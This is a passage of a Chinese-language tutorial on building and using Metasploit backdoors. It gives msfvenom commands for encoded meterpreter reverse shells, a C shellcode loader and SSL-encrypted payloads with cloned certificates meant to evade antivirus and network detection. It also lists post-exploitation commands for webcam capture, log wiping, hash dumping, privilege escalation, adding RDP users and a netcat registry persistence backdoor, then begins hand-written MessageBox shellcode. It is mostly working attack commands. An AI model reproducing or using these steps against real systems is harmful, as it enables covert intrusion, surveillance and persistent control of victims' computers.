## 第一篇：ShellCode编写与应用技术

### 1.1 Metasploit 工具简介

Metasploit 简称（MSF）是一款流行的开源渗透测试框架，由`Rapid7`公司开发，可以帮助安全和IT专业人士识别安全性问题，验证漏洞的缓解措施，并管理专家驱动的安全性进行评估，提供真正的安全风险情报。并且该框架还提供了一系列攻击模块和`Payload`工具，可用于漏洞利用、及漏洞攻击。同时软件自身支持多种操作系统平台，包括`Windows、Linux、MacOS`等。直到今天`Metasploit`已成为众多黑客手中渗透攻击的利器，并在安全领域大展身手。


 - Metasploit官网：https://metasploit.com/

Metasploit框架主要包含以下几个组件：

 - 模块库：包含了一系列攻击模块和Payload工具，用户可以利用这些模块快速构造攻击代码。
 - Payload生成器：支持生成多种类型的Payload，包括反向Shell、Meterpreter、WebShell等。
 - 渗透测试工具：支持多种渗透测试技术，包括端口扫描、漏洞扫描、密码破解等。
 - 数据库：用于存储Metasploit框架的数据和攻击结果，包括模块信息、主机信息、漏洞信息等。
 - 插件系统：支持自定义插件，可以扩展Metasploit的功能。

Metasploit 的优势在于其强大的攻击模块库和`Payload`生成器，可以帮助用户快速构造攻击代码并进行渗透测试。此外，该还支持多种漏洞利用技术，包括远程代码执行、缓冲区溢出、SQL注入等，可以满足用户不同的需求。

在使用该工具之前第一步则是要安装此工具，由于该工具支持跨平台，因此读者可以根据自己的喜好自行安装对应系统版本，这里推荐在`Linux`内核的系统中使用该软件，我们以`Kali`系统为例讲解工具的安装流程及使用细节。


 - Kali系统官网：https://www.kali.org/

Kali Linux 是一款基于`Debian`的Linux发行版，旨在提供一套专业的渗透测试和网络安全审计工具集。Kali Linux由`Offensive Security`公司维护和开发，具有广泛的社区支持和贡献。Kali Linux包含了数百个网络安全测试工具，包括漏洞扫描器、渗透测试工具、密码破解工具、无线网络测试工具等，可以帮助安全专业人士识别和评估网络安全风险，加强系统和网络的安全性。

在默认情况下`Kali`系统内都会内置`Metasploit`工具，如果读者使用的是其他第三方系统，则MSF的安装也非常容易，读者只需要执行如下几条命令并等待片刻即可自动完成Metasploit的安装；
```BASH
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```
当读者准备好测试环境后，可通过`Kali`系统内的顶部窗口打开控制台，并输入`msfconsole`命令即可进入到MSF的交互式菜单中，效果如下图所示；



### 1.2 Metasploit 生成并使用后门

Metasploit 是一个强大的渗透测试框架，它提供了广泛的模块，用于模拟各种安全攻击。其中一个强大的功能是生成后门，它可以让攻击者在目标系统中保持持久访问权限。在本章中，我们将探讨如何使用`Metasploit`生成各类后门，并了解它是如何工作的。我们将通过实际演示来说明如何灵活的运用`Metasploit`生成的后门，并介绍一些最常用的技巧。

如果读者想要通过MSF生成后门，那么将会用到`msfvenom`命令，msfvenom是Metasploit框架中的一个子命令，用于生成各种类型的恶意软件，包括后门、漏洞利用代码、木马、蠕虫等。它是`msfpayload`和`msfencode`的结合体，提供了更灵活的选项和更强的功能，该命令的常用参数如下所示；

| 命令 | 功能描述 |
|---------|-------------|
| -p    | 指定需要使用的payload，即攻击荷载。 |
| -l    | 列出指定模块的所有可用资源。 |
| -n    | 为payload预先指定一个NOP滑动长度，用于防止程序崩溃。 |
| -f    | 指定输出格式，例如exe、elf、php、js等。 |
| -e    | 指定需要使用的encoder编码器，以隐藏恶意代码。 |
| -a    | 指定payload的目标架构，例如x86、x64等。 |
| --platform | 指定payload的目标平台，例如Windows、Linux等。 |
| -s    | 设定有效攻击荷载的最大长度。 |
| -b    | 设定规避字符集，以防止生成的payload中包含不可用字符。 |
| -i    | 指定payload的编码次数。 |
| --shellest | 最小化生成payload。 |

MSF工具一般可生成两种类型的后门，一种是生成通用可执行文件，此类功能需用户在对端运行才可激活，需要注意的是由于此类后门已被各类杀毒软件厂家捕捉了特征，通常后门的生存能力很低无法在安装有杀毒软件的设备中正常运行，另一种则是直接生成ShellCode代码，此类代码并无特征并支持远程注入攻击，ShellCode代码形式在软件安全，漏洞利用领域使用最为广泛。

首先我们先来简单介绍一下MSF如何生成EXE和DLL可执行后门，如下案例中通过参数`-a`指定平台为x86也就是32位，如果读者需要采用64位则此处应对应的改为x64，参数`--platform Windows`用于指定生成平台为`windows`，参数`-p windows/meterpreter/reverse_tcp`则用于指定使用的攻击载荷为`reverse_tcp`也就是反弹后门，参数`lhost=192.168.1.20`指明了本机的IP地址，相对应的`lport=9999`则指明了本机端口，参数`-f`指明了生成的文件格式为`exe`，参数`-o`则代表生成文件存储位置，参数`-e`是一种编码器格式，`shikata_ga_nai`是`Metasploit`框架中的一种`encoder`编码器，它用于隐藏恶意代码，以避免杀毒软件和防火墙的检测。`shikata_ga_nai`是一种多次编码器，可以通过多次重复编码来混淆恶意代码，以使其难以识别。

除了`shikata_ga_nai`之外，Metasploit框架中还有许多其他编码器，包括但不限于：

| Encoder    | 描述 |
| ---------- | ---- |
| alphanum   | 使用字母数字字符对代码进行编码。 |
| alpha_upper| 使用大写字母字符对代码进行编码。 |
| fnstenv_mov| 使用FPU指令对代码进行编码。 |
| jmp_call_additive | 使用跳转指令和调用指令对代码进行编码。 |
| nonalpha   | 使用非字母字符对代码进行编码。 |
| nonupper   | 使用非大写字母字符对代码进行编码。 |
| unicode_upper | 使用Unicode字符对代码进行编码。 |

这些是Metasploit框架中常用的几种编码器，读者可以根据需求选择使用。

```bash
┌──(lyshark㉿kali)-[~]
└─$  msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp \
lhost=127.0.0.1 lport=9999 -e x86/shikata_ga_nai -i 3 -b '\x00\x0a\xff' -f exe -o payload.exe

┌──(lyshark㉿kali)-[~]
└─$  msfvenom -p windows/meterpreter/reverse_tcp -b'\x0\x0b' \
lhost=127.0.0.1 lport=9999 -f dll > payload.dll
```

虽然生成EXE可执行文件可以被使用，但笔者并不推荐，因为此类方式极容易被查杀，笔者更推荐生成`ShellCode`代码，并通过第三方应用或通过系统漏洞来对其进行注入操作，此类实现将有利于后门的持续权限维持，如下命令则是生成ShellCode反弹后门的关键命令；
```bash
┌──(lyshark㉿kali)-[~]
└─$  msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=127.0.0.1 lport=9999 -f c

┌──(lyshark㉿kali)-[~]
└─$  msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=127.0.0.1 lport=9999 -f c
```

我们以`ShellCode`生成为例，当前Kali攻击主机IP地址为`192.168.9.135`而被攻击主机IP地址为`192.168.9.118`此时，读者需要现在攻击主机生成一段`ShellCode`并指定当前主机IP参数等，输出效果如下图所示；



接着，读者需要将此`ShellCode`代码增加一个执行盒，并以此测试`ShellCode`的完整性及可用性，由于生成的`ShellCode`是C语言格式，则读者应使用C语言编译器，如下案例中`buf[]`用于填充我们自己的ShellCode代码片段。

如下这段代码，使用`VirtualAlloc`函数在内存中分配一块空间，并使用`memcpy`函数将缓冲区内容复制到内存中。然后，它将内存中的代码强制转换为函数指针，并调用该函数，以此实现反弹执行的作用，其功能可总结为；

 - 对于缓冲区buf定义了一个数组，该数组的内容为空。
 - 定义了一个类型为`void (__stdcall *CODE)()`的函数指针，该指针将指向内存中的代码。
 - 使用`VirtualAlloc`函数在内存中分配一块空间，该空间大小为`buf`数组的大小，并允许该空间可执行、可读、可写。
 - 使用`memcpy`函数将`buf`数组内容复制到内存中。
 - 将内存中的代码强制转换为函数指针，并调用该函数。

```C
#include <Windows.h>
#include <stdio.h>

#pragma comment(linker, "/section:.data,RWE")

unsigned char buf[] = "";

typedef void(__stdcall *CODE) ();

int main()
{
    // ((void(*)(void))&buf)();
    PVOID pFunction = NULL;
    pFunction = VirtualAlloc(0, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(pFunction, buf, sizeof(buf));
    CODE StartShell = (CODE)pFunction;
    StartShell();
}
```

读者需要打开`Visual Studio 2013`编译器，并新建一个控制台应用程序，将如上代码复制到编辑器内，通过替换`unsigned char buf[] = "";`为我们自己的ShellCode代码，如下图所示；



编译通过后，读者应将`lyshark.exe`后门拷贝到客户端`192.168.9.118`内；



服务端中，读者需通过`msfconsole`进入到MSF控制台，并创建一个侦听器组件，侦听器适用于上线客户端的，其中的`lhost`则需传递本机的IP，其中的`lport`则需要与本机开放端口保持一致；
```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.9.135
lhost => 192.168.9.135
msf6 exploit(multi/handler) > set lport 9999
lport => 9999
```
当读者配置参数完毕后，可通过`show options`命令用于检查配置参数的准确性，如果此时配置失误读者依然可以重新配置更改；



当配置就绪，则只需要执行`exploit`则此时服务端将会进入侦听模式，当然读者也可以使用`exploit -j -z`将请求挂载到后台；



至此当被害主机运行`lyshark.exe`进程时，则`kali`服务端将会接收到反弹的上线会话，上线后读者可通过`sysinfo`来了解被控客户端的主机信息，如下图所示；



一旦读者获取到对端主机的控制权，则可通过`meterpreter`中提供的各类命令来对目标主机进行信息收集工作，如下是该模块中常用的一些操作命令，读者可根据自行学习使用；

#### 1.2.1 通用控制命令

```C
meterpreter > essions -k 1             # 通过ID号杀死一个会话
meterpreter > background               # 将会话放入后台
meterpreter > getuid/getpid            # 查询用户权限与PID
meterpreter > sysinfo                  # 查看目标系统信息
meterpreter > ps                       # 查目标主机进程
meterpreter > kill PID                 # 杀死目标制定进程
meterpreter > getsystem                # 尝试令牌提权
meterpreter > shell                    # 进入目标shell环境

meterpreter > enumdesktops             # 查看可用的桌面
meterpreter > getdesktop               # 获取当前meterpreter关联的桌面
meterpreter > set_desktop              # 设置meterpreter关联的桌面
meterpreter > screenshot               # 截屏
meterpreter > run vnc                  # 使用vnc远程桌面连接

meterpreter > uictl disable mouse      # 禁用目标鼠标
meterpreter > uictl enable keyboard    # 开启目标键盘

meterpreter > webcam_list              # 查看目标主机摄像头
meterpreter > webcam_snap              # 摄像头拍照
meterpreter > webcam_stream            # 开启目标主机摄像头
meterpreter > clearav                  # 销毁日志文件

meterpreter > webcam_stream -i 1/2     # 打开前置或后置摄像头
meterpreter > check_root               # 检测root
meterpreter > dump_calllog             # 下载电话记录
meterpreter > dump_contacts            # 下载信息记录
meterpreter > geolocate                # 谷歌地图定位
```

#### 1.2.2 Migrate进程迁移

进程迁移技术允许攻击者将Meterpreter客户端从当前进程中迁移到另一个进程中。这可以避免检测软件识别Meterpreter客户端，并对其进行清除。此外，进程迁移还可以帮助攻击者隐藏其所在的进程，以避免被检测。

```C
meterpreter > execute                  # 在目标机器中执行文件
meterpreter > execute -H -i -f cmd.exe # 创建新进程cmd.exe -H不可见-i交互

meterpreter > getpid
meterpreter > ps
meterpreter > migrate PID              # 通过PID号迁移进程
```

#### 1.2.3 文件查阅与传输

Meterpreter 还具有文件查阅与远程文件传输功能。这些功能允许攻击者查看受害者计算机上的文件，并传输文件到受控机器。

```C
meterpreter > getwd                                # 查看当前工作目录
meterpreter > search -f *filename*                 # 搜索文件
meterpreter > cat c:\\lyshark.log                  # 查看文件内容
meterpreter > upload /tmp/shell.exe C:\\shell.exe  # 上传文件到目标机
meterpreter > download c:\\shell.exe /tmp/         # 下载文件到本机上
meterpreter > edit c:\\lyshark.log                 # VIM编辑或创建文件
meterpreter > rm C:\\lyshark.log                   # 删除文件
meterpreter > getlwd                               # 看肉鸡当前目录
meterpreter > lcd /tmp                             # 切换目录
```

#### 1.2.4 端口转发与扫描

网络与端口转发功能允许攻击者将受害者的网络流量转发到受控机器，进而获取机密信息或控制受害者的网络资源。该功能通过创建一个代理服务器，以便将网络流量从受害者的计算机转发到受控机器。

```bash
# 网络参数采集
meterpreter > ifconfig        # 查询肉鸡IP地址
meterpreter > netstat -antp   # 查询目标网络连接
meterpreter > arp -a          # 查询目标ARP缓存
meterpreter > getproxy        # 查看目标代理信息
meterpreter > route           # 查看目标路由表

# 远端端口扫描
meterpreter > run post/windows/gather/arp_scanner RHOSTS=192.168.9.0/24           # 扫描192.168.9.0/24网段
meterpreter > run auxiliary/scanner/portscan/tcp RHOSTS=192.168.9.135 PORTS=3389  # 检测192.168.9.135是否开启3389端口

# 端口转发与端口关闭
meterpreter > portfwd add -l 9999 -p 3389 -r 127.0.0.1   # 将目标机3389端口转发到本地9999
meterpreter > portfwd list                               # 查询当前转发列表
meterpreter > portfwd delete -l 9999                     # 删除本地主机的9999端口映射

# 添加与删除主机路由
meterpreter > run autoroute -p                              # 查询添加的路由记录
meterpreter > run autoroute -s 10.10.10.1 -n 255.255.255.0  # 在目标主机添加一条路由
meterpreter > run autoroute -d -s 10.10.10.1                # 删除目标主机中的路由
meterpreter > run autoroute -s 10.10.10.1/24                # 添加一个路由网段
```

#### 1.2.5 信息采集功能

信息采集功能是后渗透中的重要功能。它允许攻击者从受害者计算机上采集信息，以便对其进行更深入的渗透。Metasploit 内置了大量的信息采集模块，用于从受害者计算机上收集信息。这些模块包括获取操作系统版本、已安装的软件、已运行的进程、网络配置等信息。

在`Kali`系统中，信息采集模块被放置在了`usr/share/metasploit-framework/modules`目录下，这其中包括了针对各种型号设备的采集功能，如下图所示；



以Windows系统中的搜集模块为例，其默认存储在`/usr/share/metasploit-framework/modules/post/windows/gather
`路径下，读者可取查看一下具体配置信息；



当读者在`meterpreter`环境下时，这些功能可以被直接调用，我们已枚举目标服务为例，通过`info`命令读者可查询特定模块的定义规范，而`run`则是运行这段枚举程序；
```bash
meterpreter > info post/windows/gather/enum_services        # 查询模块配置参数
meterpreter > run post/windows/gather/enum_services         # 枚举目标服务
meterpreter > run post/windows/gather/enum_files            # 枚举目标服务
meterpreter > run post/windows/gather/hashdump              # 盗取Hash
meterpreter > run post/windows/gather/checkvm               # 是否虚拟机
meterpreter > run post/windows/gather/forensics/enum_drives # 查看分区
meterpreter > run post/windows/gather/enum_applications     # 获取安装软件信息
meterpreter > run post/windows/gather/dumplinks             # 获取最近的文件操作
meterpreter > run post/windows/gather/enum_ie               # 获取IE缓存
meterpreter > run post/windows/gather/enum_chrome           # 获取Chrome缓存
meterpreter > run post/windows/gather/enum_patches          # 补丁信息
meterpreter > run post/windows/gather/enum_domain           # 查找域控
```

当读者执行枚举时，即可输出目标进程内所有运行的服务信息，读者可依据自己的需要选择不同的服务，如下图所示则是枚举服务列表；



#### 1.2.6 目标主机权限提升

针对目标主机的提权操作有两种情况，读者可使用`bypassuac`脚本尝试提权，也可使用`enum_patches`枚举出系统补丁信息，根据不同补丁采用不同的提权脚本实现。

```bash
# 使用bypassuac脚本尝试提权
meterpreter > background
msf > use exploit/windows/local/bypassuac
msf > set SESSION 1
msf > run

# 收集目标主机补丁情况
meterpreter > run post/windows/gather/enum_patches
[+] KB2871997 is missing
[+] KB2928120 is missing
[+] KB977165 - Possibly vulnerable to MS10-015 kitrap0d if Windows 2K SP4 - Windows 7

# 尝试采用符合的提权脚本提权
meterpreter > background
msf > use exploit/windows/local/ms13_053_schlamperei
msf > set SESSION 1
msf > exploit
```

#### 1.2.7 添加用户与开启远程

通常用户在获取到目标主机权限时，则可通过此命令在对端主机中开启远程桌面选项，以此来获得一个长期稳定的后门。

```bash
# 添加系统用户与开启远程桌面
meterpreter > run getgui -e                                                     # 开启远程桌面
meterpreter > run getgui -u lyshark -p 123123                                   # 添加用户
meterpreter > run getgui -f 9999 -e                                             # 3389端口转发到9999

# 启用RDP桌面
meterpreter > run post/windows/manage/enable_rdp                                # 开启远程桌面
meterpreter > run post/windows/manage/enable_rdp USERNAME=lyshark PASSWORD=123  # 添加用户
meterpreter > run post/windows/manage/enable_rdp FORWARD=true LPORT=9999        # 将3389端口转发到9999
```

#### 1.2.8 注册表写入后门

通过上传命令将`nc.exe`后门传输到远程主机，并通过写出`currentversion`设置开机自启动后门，实现长期权限维持，该功能通常用于后渗透阶段的权限维持。

```bash
-d   注册表中值的数据
-k   注册表键路径
-v   注册表键名称

enumkey 枚举可获得的键
setval 设置键值
queryval 查询键值数据

# 上传nc工具到根目录
meterpreter > upload /root/nc.exe C:\\windows\\

# 枚举run下的key
meterpreter > reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

# 增加NC后门
meterpreter > reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v myshell -d 'C:\windows\nc.exe -Ldp 666 -e cmd.exe'

# 查看键值
meterpreter > reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v myshell

# 攻击者即可链接NC获取Shell
┌──(lyshark㉿kali)-[~]
└─$ nc -v 192.168.1.20 666
```

### 1.3 Metasploit 生成SSL加密载荷

在本节中，我们将介绍如何通过使用`Metasploit`生成加密载荷，以隐藏网络特征。前一章节我们已经通过`Metasploit`生成了一段明文的ShellCode，但明文的网络传输存在安全隐患，因此本节将介绍如何通过生成SSL证书来加密ShellCode，使得网络特征得到隐藏，从而提高后门的生存能力和抵抗网络特征分析的能力。

ShellCode 网络特征加密我们采用的是SSL（Secure Sockets Layer），现已被替换为TLS（Transport Layer Security），SSL是一种用于在Web上传输数据的安全协议。它的主要目的是确保在互联网上传输的数据在传递过程中不会被第三方窃取或篡改。SSL加密的原理是通过两个公钥和一个私钥来加密数据。公钥用于加密数据，私钥用于解密数据。在传输过程中，发送者使用接收者的公钥对数据进行加密，接收者使用自己的私钥对数据进行解密。这样，即使在网络上被窃取，数据也无法被第三方解密，从而保证了数据的安全性。

通常，SSL证书由以下几部分组成：

 - 证书主体：证明证书拥有者的信息，如域名、组织名称等。
 - 公钥：用于加密数据的公钥。
 - 私钥：用于解密数据的私钥，需要在安全的环境中保存。
 - 签名：证明证书内容是由可信任的证书颁发机构签发的。
 - 有效期：证明证书的有效期，在该期限内有效。
 - 颁发者：证明证书的颁发者，如VeriSign、GoDaddy等。

#### 1.3.1 通过MSF模块克隆证书

要想实现加密通常我们需要获取一个专属的证书文件，获取证书的方式有两种，第一种方式是通过`Impersonate_SSL`模块，对已有证书进行下载操作，如下命令实现了将`www.lyshark.com`网站中的证书下载到本地的功能，
```bash
msf6 > use auxiliary/gather/impersonate_ssl
msf6 > set rhost www.lyshark.com
msf6 > run
```

当读者执行命令后，则该证书将被下载到`home/lyshark/.msf4/loot/`目录下，其中包含了证书的`key,crt,pem`等文件，输出如下图所示；



当具备了克隆证书后，读者可在`Metasploit`中交互式执行如下命令实现生成带有加密功能的`ShellCode`代码，如下代码中通过`HANDLERSSLCERT`指定证书位置，并通过`generate`生成C语言版ShellCode代码。
```bash
msf6 > use payload/windows/meterpreter/reverse_https
msf6 > set STAGERVERIFYSSLCERT true
msf6 > set HANDLERSSLCERT /home/lyshark/.msf4/loot/20230407144733_default_59.110.117.109_59.110.117.109_p_764545.pem
msf6 > set LHOST 192.168.9.135
msf6 > set lport 8443
msf6 > generate -f c
```
而对于服务端来说，在传递参数时，读者同样需要在`HANDLERSSLCERT`中传递私有证书，
```bash
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_https
msf6 > set HANDLERSSLCERT /home/lyshark/.msf4/loot/20230407144733_default_59.110.117.109_59.110.117.109_p_764545.pem
msf6 > set STAGERVERIFYSSLCERT true
msf6 > set LPORT 8443
msf6 > set LHOST 192.168.140.128
msf6 > run -j
```

#### 1.3.2 通过OpenSSL制作证书

当然读者也可用通过`kali`系统内自带的`openssl`命令生成一个新的伪造证书，OpenSSL是一个开源的安全工具，用于实现`SSL/TLS`协议。它提供了一系列命令行工具，可以用于生成证书、加密数据、解密数据等操作。

首先使用第一种方式生成，下面是各个参数的详细解释：

 - req：指定生成证书请求。
 - new：指定生成一个新的证书请求。
 - newkey rsa:4096：指定生成的证书的密钥长度为4096位。
 - days 365：指定证书的有效期为365天。
 - nodes：指定不加密私钥。
 - x509：指定生成的证书类型为X.509证书。
 - subj “/C=UK/ST=London/L=London/O=Development/CN=www.lyshark.com”：指定证书主题信息，其中C=UK代表国家，ST=London代表省份，L=London代表城市，O=Development代表组织，CN=www.lyshark.com代表通用名称。
 - keyout www.lyshark.com.key：指定输出的私钥文件名。
 - out www.lyshark.com.crt：指定输出的证书文件名。

通过这条命令，可以生成一个有效期为365天，密钥长度为4096位的X.509证书，证书主题信息为"/C=UK/ST=London/L=London/O=Development/CN=www.lyshark.com"，私钥文件名为www.lyshark.com.key，证书文件名为www.lyshark.com.crt。
```bash
┌──(lyshark㉿kali)-[~/lyshark]
└─$ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 -subj \
"/C=UK/ST=London/L=London/O=Development/CN=www.lyshark.com" \
-keyout www.lyshark.com.key -out www.lyshark.com.crt

┌──(lyshark㉿kali)-[~/lyshark]
└─$ cat www.lyshark.com.key www.lyshark.com.crt > www.lyshark.com.pem
```

接着读者可执行`msfvenom`命令通过非交互方式生成一段加密版的ShellCode代码片段。
```bash
┌──(lyshark㉿kali)-[~/lyshark]
└─$ msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.9.135 LPORT=8443 \
PayloadUUIDTracking=true PayloadUUIDName=Whoamishell \
HandlerSSLCert=/root/test/www.lyshark.com.pem \
StagerVerifySSLCert=true -f c -o /root/test.c
```

服务端启用侦听模式，并通过`HandlerSSLCert`传入同样的证书私钥即可。
```bash
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_https
msf6 > set LHOST 192.168.9.135
msf6 > set LPORT 8443
msf6 > set HandlerSSLCert /root/test/www.baidu.com.pem
msf6 > set StagerVerifySSLCert true
msf6 > exploit -j -z
```

### 1.4 编写简易ShellCode弹窗

在前面的章节中相信读者已经学会了使用`Metasploit`工具生成自己的`ShellCode`代码片段了，本章将继续深入探索关于`ShellCode`的相关知识体系，ShellCode 通常是指一个原始的可执行代码的有效载荷，攻击者通常会使用这段代码来获得被攻陷系统上的交互Shell的访问权限，而现在用于描述一段自包含的独立的可执行代码片段。ShellCode代码的编写有多种方式，通常会优先使用汇编语言实现，这得益于汇编语言的可控性。

ShellCode 通常会与漏洞利用并肩使用，或是被恶意代码用于执行进程代码的注入，通常情况下`ShellCode`代码无法独立运行，必须依赖于父进程或是`Windows`文件加载器的加载才能够被运行，本章将通过一个简单的弹窗（MessageBox）来实现一个简易版的弹窗功能，并以此来加深读者对汇编语言的理解。

#### 1.4.1 寻找DLL库函数地址

在编写`ShellCode`之前，我们需要查找一个函数地址，由于我们需要调用`MessageBoxA()`这个函数，所以需要获取该函数的内存动态地址，根据微软的官方定义可知，该函数默认放在了`User32.dll`库中，为了能够了解压栈时需要传入参数的类型，我们还需要查询一下函数的原型；

在微软定义中`MessageBoxA`函数的原型如下：
```C
int MessageBoxA(
  HWND hWnd,
  LPCSTR lpText,
  LPCSTR lpCaption,
  UINT uType
);
```

参数说明：
 - hWnd：消息框的父窗口句柄。
 - lpText：消息框中显示的文本。
 - lpCaption：消息框的标题栏文本。
 - uType：消息框的类型，可以指定消息框包含的按钮以及图标等。

需要注意的是，由于我们调用的是`MessageBoxA`，而此函数为ASCII模式，需要读者自行修改解决方案，在配置属性的常规选项卡，修改字符集(使用多字节字符集)即可，如下图所示；



读者可以通过编写一段简单的代码来获取所需数据，首先通过`LoadLibrary`函数加载名为`user32.dll`的动态链接库，并将其基地址存储在`HINSTANCE`类型的变量`LibAddr`中。然后，使用`GetProcAddress`函数获取 `MessageBoxA`函数的地址，并将其存储在`MYPROC`类型的变量`ProcAddr`中。最后输出所需结果；
```c
#include <windows.h>
#include <iostream>

typedef void(*MYPROC)(LPTSTR);

int main(int argc, char *argv[])
{
    HINSTANCE LibAddr,KernelAddr;
    MYPROC ProcAddr;

    // 获取User32.dll基地址
    LibAddr = LoadLibrary("user32.dll");
    printf("user32.dll 动态库基地址 = 0x%x \n", LibAddr);

    // 获取kernel32.dll基地址
    KernelAddr = LoadLibrary("kernel32.dll");
    printf("kernel32.dll 动态库基地址 = 0x%x \n", KernelAddr);

    // 获取MessageBox基地址
    ProcAddr = (MYPROC)GetProcAddress(LibAddr, "MessageBoxA");
    printf("MessageBoxA 函数相对地址 = 0x%x \n", ProcAddr);

    // 获取ExitProcess基地址
    ProcAddr = (MYPROC)GetProcAddress(KernelAddr, "ExitProcess");
    printf("ExitProcess 函数相对地址 = 0x%x \n", ProcAddr);

    system("pause");
    return 0;
}
```

上方的代码经过编译运行后会得到两个返回结果，如下图所示，其中`User32.dll`的基地址是`0x75a40000`而该模块内的`MessageBoxA`函数在当前系统中的地址为`0x75ac0ba0`，当然这两个模块地址在每次系统启动时都会发生幻化，读者电脑中的地址肯定与笔者不相同，这都是正常现象，之所以会出现这种情况是因为，系统中存在一种ASLR机制。

> 扩展知识：ASLR（Address Space Layout Randomization）机制的核心是用于随机化系统中程序和数据的内存地址分布，从而增加攻击者攻击系统的难度，在启用了ASLR机制的系统下，每次运行程序时，程序和系统组件（例如DLL、驱动程序等）都会被分配不同的内存地址，而不是固定的内存地址。这样可以使得攻击者难以利用已知的内存地址漏洞进行攻击，因为攻击者需要先找到正确的内存地址才能利用漏洞。ASLR的随机化是根据操作系统的一些随机因素进行计算的，例如启动时间、进程 ID 等等。

由于如上机制的存在，导致`user32.dll`模块地址不确定，也就会导致其地址内部的API函数地址也会发生一定的变化，下图仅作为参考图；



在获取到`MessageBoxA`函数的内存地址以后，我们接着需要获取一个`ExitProecess`函数的地址，这个API函数的作用是让程序正常退出，这是因为我们注入代码以后，原始的堆栈地址会被破坏，堆栈失衡后会导致程序崩溃，所以为了稳妥起见我们还是添加一行正常退出为好。函数`ExitProcess`的原型如下：
```c
VOID WINAPI ExitProcess(
  UINT uExitCode
);
```
其中参数`uExitCode`指定了进程的退出代码，表示进程成功退出或者发生了错误。如果`uExitCode`为0，表示进程成功退出，其他的非0值则表示进程发生了错误，不同的非0值可以用于表示不同的错误类型。

#### 1.4.2 探讨STDCALL调用约定

既然获取到了相应的内存地址，那么接下来就需要通过汇编来编写可执行代码片段了，在编写这段代码之前，先来了解一下汇编语言的调用约定，在汇编语言中，要想调用某个函数，需要使用CALL语句，而在CALL语句的后面，要跟上该函数在系统中的地址，前面我们已经获取到了相应的内存地址了，所以在这里就可以通过CALL相应的地址来调用相应的函数。

我们以32位应用程序为例，在32位应用程序内通常使用`STDCALL`调用约定，它定义了函数在被调用时，参数传递、返回值传递以及栈的使用等方面的规则，该调用约定的规则如下所示：

 - 参数传递：参数从右向左依次压入栈中，由被调用者在返回前清理栈。
 - 返回值传递：函数返回时将返回值存储在EAX寄存器中。
 - 栈的使用：函数被调用前，调用者将参数压入栈中；被调用者在返回前清理栈，以确保栈的平衡。
 - 函数调用：在调用函数之前，调用者将返回地址（Return Address）和EBP寄存器的值保存在栈中，并将ESP寄存器指向参数列表的最后一个元素；在函数返回之后，调用者通过将之前保存的EBP和返回地址弹出栈中，并将ESP寄存器恢复到最初的位置来恢复栈的状态。

总之，stdcall调用约定将参数按照从右到左的顺序压入栈中，由被调用者清理栈，返回值存储在EAX寄存器中，函数调用者和被调用者都需要遵循一定的栈使用规则。这种约定的好处是参数传递简单，可读性高，并且在函数返回时栈已经被清理，不需要额外的清理工作。

在实际的编程中，一般还是先将地址赋值给`eax`寄存器，然后再`CALL`调用相应的寄存器实现调用，比如现在笔者有一个`lyshark(a,b,c,d)`函数，如果我们想要调用它，那么它的汇编代码就应该编写为：
```C
push d
push c
push b
push a
mov eax,AddressOflyshark    // 获取偏移地址
call eax                    // 间接调用
```
根据上方的调用方式，我们可以写出`ExitProcess()`函数的汇编版调用结构，如下；
```C
xor ebx, ebx
push ebx
mov eax, 0x76c84100
call eax
```
接着编写`MessageBox()`这个函数调用。与`ExitProcess()`函数不同的是，这个API函数包含有四个参数，当然第一和第四个参数，我们可以赋给0值，但是中间两个参数都包含有较长的字符串，这个该如何解决呢？我们不妨先把所需要用到的字符串转换为ASCII码值，转换的方式有许多，如下代码则是通过Python实现的转换模式；
```Python
import os,sys
from LyScript32 import MyDebug

# 字符串转ascii
def StringToAscii(string):
    ref = []
    for index in range(0,len(string)):
        hex_str = str(hex(ord(string[index])))
        ref.append(hex_str.replace("0x","\\x"))
    return ref

if __name__ == "__main__":

    # 输出MsgBox标题
    title = StringToAscii("alert")
    for index in range(0,len(title)):
        print(title[index],end="")

    print()
    # 输出MsgBox内容
    box = StringToAscii("hello lyshark")
    for index in range(0,len(box)):
        print(box[index],end="")
```
当`Python`程序被运行，则用户即可得到两串通过编码后的字符串数据。
```C
MsgBox标题：alert              \x61\x6c\x65\x72\x74\x21
MsgBox内容：hello lyshark      \x68\x65\x6c\x6c\x6f\x20\x6c\x79\x73\x68\x61\x72\x6b
```
由于我们使用的是32位汇编，所以上方的字符串需要做一定的处理，我们分别将每四个字符为一组，进行分组，将不满四个字符的，以空格`0x20`进行填充，这是因为我们采用的存储字符串模式为栈传递，而一个寄存器为32位，所以就需要填充满4字节才可以平衡；
```C
-------------------------------------------------------------
填充 alert
-------------------------------------------------------------
\x61\x6c\x65\x72
\x74\x21\x20\x20

-------------------------------------------------------------
填充 hello lyshark
-------------------------------------------------------------
\x68\x65\x6c\x6c
\x6f\x20\x6c\x79
\x73\x68\x61\x72
\x6b\x20\x20\x20
```
上方的空位置之所以需要以`0x20`进行填充，而不是`0x00`进行填充，是因为`strcpy`这个字符串拷贝函数，默认只要一遇到`0x00`就会认为我们的字符串结束了，就不会再拷贝`0x00`后的内容了，所以这里就不能使用`0x00`进行填充了，这里要特别留意一下。

接着我们需要将这两段字符串分别压入堆栈存储，这里需要注意，由于我们的计算机是`小端序`排列的，因此字符的入栈顺序是从后往前不断进栈的，上面的字符串压栈参数应该写为：

